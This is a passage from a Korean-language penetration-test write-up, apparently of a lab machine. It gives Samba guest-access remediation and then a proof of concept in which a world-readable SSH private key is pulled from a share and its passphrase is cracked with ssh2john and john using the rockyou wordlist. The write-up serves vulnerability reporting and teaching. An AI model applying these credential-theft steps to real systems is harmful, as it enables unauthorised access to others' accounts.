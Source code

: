 #### 대응 방안
samba 설정파일인 smb.conf 파일의 글로벌 항목의 map to guest 값을 Never로 설정하여 계정과 암호 없이 접근 불가능하게 설정한다.
```sh
vim /etc/samba/smb.conf

[globar]
map to guest = Never
```

쉐어 항목의 public, guest ok 항목을 no로 설정하여 개인 사용자만 접근 가능하도록 한다.
```sh
[share]
                            [...]
public = yes -> no
guest ok = yes -> no
```

#### 레퍼런스

### 2. 잘못된 ssh 개인키 권한 설정
#### 취약점 개요

|정보|설명|
|----|----|
|이름|잘못된 ssh 개인키 권한 설정|
|중요도|상|

#### 취약점 설명
해당 취약점은 samba-share 쉐어 안의 개인키 파일인 id_rsa 파일의 권한을 잘못설정하여 파일 소유자가 아닌 임의의 공격자가 접근이 가능해 키를 탈취한 뒤 ssh를 사용하여 해당 개인키 소유자로 로그인 가능한 취약점이다.

#### 개념 증명
개인키 파일의 권한이 모든 사용자에게 읽고 쓰고 실행할 수 있게 설정되어 있으므로 `get`을 통하여 칼리 리눅스로 파일을 가져온 뒤 passphrase 값을 크래킹하기 위해 `ssh2john`을 사용하여 john 형식으로 변환시킨 뒤 크래킹을 진행하여 성공했다.
```sh
architect@ip-172-31-192-83:/samba$ ls -al
total 12
drwxr-xr-x  2 root root 4096 Oct  7  2023 .
drwxr-xr-x 21 root root 4096 Aug 27 11:20 ..
-rwxrwxrwx  1 root root 3414 Oct  7  2023 architect_id_rsa

smb: \> get architect_id_rsa 
getting file \architect_id_rsa of size 3414 as architect_id_rsa (72.5 KiloBytes/sec) (average 72.5 KiloBytes/sec)

┌──(kali㉿kali)-[~/drugstore]
└─$ ssh2john architect_id_rsa > architect.hash

┌──(kali㉿kali)-[~/drugstore]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt architect.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
casper           (architect_id_rsa)      #architect 개인키 passpharase 패스워드
1g 0:00:00:14 DONE (2024-08-27 04:46) 0.06743g/s 19.42p/s 19.42c/s 19.42C/s barcelona..brenda
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
